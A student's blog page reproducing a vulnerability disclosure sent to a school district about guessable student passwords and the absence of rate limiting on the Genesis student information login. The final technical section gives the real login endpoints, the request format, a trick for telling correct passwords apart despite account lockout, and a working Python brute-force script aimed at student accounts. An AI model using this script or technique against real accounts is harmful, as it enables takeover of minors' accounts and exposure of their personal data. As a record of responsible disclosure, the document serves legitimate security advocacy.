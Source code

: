 @Title = School Password Concern
@Author = Connor Slade
@Date = 02-11-21
@Description = How I hacked my school (that caught your attention huh)
@Tags = School, Passwords, Hacking, Genesis
@Path = other/school-password-concern
@Assets = .

---

# 🏫 School Password Concern

> A document I made a while ago (Apr 2021) and sent to my school district addressing the poor student account security.
>
> About 18 days later the school IT person responded saying they have a mechanism in place to limit the number of password retries to 8.
> I looked into how they implemented this and found that when an account is tried more than 8 it disables the account...
> At first I thought they just shifted the problem because now you could lock people out of their accounts by spamming login attempts.
> But I soon realized that it didn't even fix the original problem!
>
> When your login failed it would show an error message. If it was because of an incorrect password this message would *always* be `"Username or password is incorrect."`.
> But if you had a correct passwords but the account was under the 'ratelimit' it would say `"Account is Inactive."`. So you could still tell if the password was correct.
>
> A few months later I rewrote the system in Rust making it like thousands of times faster, often cracking a password in under 30 seconds.
>
> And nothing much has happened since. I hope they fix this because I cant have been the only one to see a problem here.
>
> Source Code [here](https://raw.githubusercontent.com/Basicprogrammer10/SchoolPasswordCrack).

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly.
This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible.
This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account.
I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it).
Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes!
So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts.
Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number.
This means that for many student passwords only four digits need to be cracked.
This is bad because it lowers the time to crack passwords.
I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes.
This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords.
Secure passwords have 10 characters made up of letters, numbers, and special characters.
These passwords should not be able to be seen by teachers or other staff but could be reset if needed.
This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system.
This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession.
For example, the program mentioned above was able to make over 30 requests per second.
This allows simple brute force attacks (such as this one) to work.
Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used.
Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it.
At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk.
I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security!
As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students.
I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164).
This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server.
Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack.
I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account.
Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried

    # Create new session to hold cookies
    ses = requests.Session()

    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)

    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}

    # Try Password
    data = ses.post(url, data=dataToSend)

    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations.
To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
